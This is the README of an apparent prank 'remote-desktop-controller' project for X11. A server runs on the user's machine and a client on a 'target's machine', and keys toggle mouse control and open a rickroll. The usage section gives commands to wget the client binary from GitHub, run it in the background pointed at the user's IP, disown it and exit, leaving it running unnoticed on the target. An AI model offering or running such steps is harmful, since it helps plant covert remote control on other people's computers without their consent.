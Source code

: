 # remote-desktop-controller
We do a little trolling

# Building

Depends on x11 and the xtest extension.

```
make client server
```

# Usage

The server will run on your machine, and the client will run on the target's machine.

If you want to quickly download the client and run it on the target machine, a client binary is available in the bin folder. Before running the client, make sure the server is running on your machine.
```
wget https://github.com/longwatermelon/remote-desktop-control/raw/master/bin/client
chmod +x client
./client <your ip> &
disown
exit
```

* m: Toggle mouse control on/off
* y: Open rickroll in default browser


